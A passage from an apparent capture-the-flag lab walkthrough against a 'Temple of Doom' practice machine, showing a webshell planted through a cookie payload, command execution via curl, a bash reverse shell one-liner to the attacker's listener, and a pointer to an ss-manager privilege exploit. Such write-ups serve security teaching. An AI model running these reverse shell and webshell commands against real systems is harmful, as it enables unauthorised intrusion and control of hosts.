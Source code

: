In the **Repeater** tab, we paste the resulting string in base64 as the cookie value, then click **Send**, this webshell listens on port 443 waiting for incoming commands via cmd parameter.

![](/assets/images/templeofdoom/screenshot-7.png)

Using curl we can run commands through the cmd parameter.

```console
root@kali:~$ curl http://192.168.179.177:443?cmd=id 
uid=1001(nodeadmin) gid=1001(nodeadmin) groups=1001(nodeadmin)
```

Then to get a reverse shell we need to set up a netcat listener in this case on port 443 and then execute the following curl request.

```console
root@kali:~$ curl http://192.168.179.177:443?cmd=$(urlencode 'bash -c "bash -i >& /dev/tcp/192.168.179.1/443 0>&1"')
```

We have a reverse shell with nodeadmin user privileges.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.177] 38956
bash: cannot set terminal process group (820): Inappropriate ioctl for device
bash: no job control in this shell
[nodeadmin@localhost ~]$ python -c "import pty;pty.spawn('/bin/bash')"
python -c "import pty;pty.spawn('/bin/bash')"
[nodeadmin@localhost ~]$
```

By listing the procesess **ss-manager** is running as user fireman, googling I found that it is a controller for multi-user management and traffic statistics, also this version is vulnerable to command execution, the exploit can be downloaded [here](https://www.exploit-db.com/exploits/43006).
